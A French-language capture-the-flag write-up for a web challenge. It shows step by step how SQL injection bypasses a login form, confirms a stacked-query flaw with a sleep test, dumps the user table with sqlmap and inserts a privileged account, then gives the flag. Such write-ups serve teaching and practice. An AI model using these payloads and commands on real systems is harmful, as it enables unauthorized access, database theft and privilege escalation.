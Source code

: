 # Web 100 - Super Query Login v1

La suite d’une série d’injection SQL avec un champ de connexion. On se connecte avec une injection
classique:

>‘or 1=1 limit 1 #

On est connecté mais on nous indique que nous n’avons pas le rang nécessaire (rang = 0).
On essaie de se connecter sur d’autres comptes en faisant varier le paramètre “limit”
> ‘or 1=1 limit 1,2 #

Malheureusement aucun compte ne semble avoir le rang espéré. On va essayer de faire une requête à la
suite de la requête principale:

```sql
SELECT something FROM table WHERE something = ‘$username’ AND something =’ $password’ ;DEUXIEME_REQUETE```


On injecte donc avec: ‘ and sleep(5) # On remarque que le chargement de la page est beaucoup plus
long que la normal du fait de la pause demandée via l’injection à MySQL.
La suite de notre exploitation va consister à ajouter un nouvel utilisateur dans la base de données avec le
rang adéquat. Pour faciliter l’exploitation on peut passer par sqlmap afin de récupérer la table contenant
les utilisateurs et les colonnes de celle-ci.

> python
sqlmap.py
-u
"http://ese.crashlab.org/bla/ctf/web/web7/"
"username=toto&password=toto" -p "username" --level 3 --threads 4
--data


La faille est exploitable en blind avec RLIKE, on récupère ce dont on a besoin:

>python
sqlmap.py
-u
"http://ese.crashlab.org/bla/ctf/web/web7/"
"username=toto&password=toto" -p "username" --level 3 --threads 4 --dump
--data


On a alors une table web3_users avec les colonnes: id, password, rank et username. Notre injection pour
ajouter un nouvel utilisateur se résume alors à:
```sql
Login = ' ; INSERT INTO web3_users(id, username, password, rank) VALUES (987,‘bob’,‘bob’, 1) #```

On se connecte avec le compte créé et on obtient le flag: **ESE{St4cKeD_Qu3rIeS}**